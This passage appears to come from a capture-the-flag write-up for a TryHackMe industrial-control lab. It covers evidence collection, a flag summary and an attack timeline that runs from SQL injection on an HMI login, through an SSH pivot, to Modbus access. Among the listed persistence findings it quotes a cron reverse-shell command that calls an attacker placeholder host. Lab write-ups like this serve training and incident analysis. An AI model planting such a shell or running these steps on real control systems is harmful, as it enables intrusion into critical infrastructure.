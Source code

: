 ```bash

# Process list
ps aux > "$EVIDENCE_DIR/processes.txt"

# Log files
cp -r /var/log "$EVIDENCE_DIR/"

# Create hash manifest
find "$EVIDENCE_DIR" -type f -exec md5sum {} \; > "$EVIDENCE_DIR/evidence_hashes.txt"
```

### 8.2 Flag Submission & Validation

**Flag Organization**
```bash
# Create flag summary
cat > "$RESULTS_DIR/flags_found.txt" << EOF
# Operation Virelia Water - Flags Found
# Format: THM{flag_content} | Source | Discovery Method

# Web Application Flags
THM{web_flag_1} | HMI Login Page | SQL Injection
THM{web_flag_2} | Config File | Directory Traversal

# ICS Protocol Flags  
THM{modbus_flag_1} | Modbus Register 40001 | Register Scanning
THM{modbus_flag_2} | S7 Memory Dump | PLC Memory Read

# System Flags
THM{system_flag_1} | /etc/passwd | File Inclusion
THM{system_flag_2} | Registry HKLM | Privilege Escalation
EOF
```

### 8.3 Attack Path Documentation

**Complete Attack Timeline**
```markdown
# Attack Path Reconstruction

## Initial Access
1. **Web Application Compromise**
   - Target: HMI Web Interface (IP: [IP])
   - Method: SQL Injection in login form
   - Credentials Obtained: admin/password

## Lateral Movement
2. **Network Pivot**
   - Method: SSH tunnel through web server
   - Target: Internal ICS network (192.168.100.0/24)

## ICS System Access
3. **Modbus Device Compromise**
   - Target: PLC at 192.168.100.10
   - Method: Direct Modbus TCP access
   - Impact: Register manipulation possible

## Persistence Mechanisms Found
4. **Attacker Persistence**
   - Cron job: `/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'`
   - SSH key: Added to authorized_keys
   - Registry: Malicious service in Run key
```
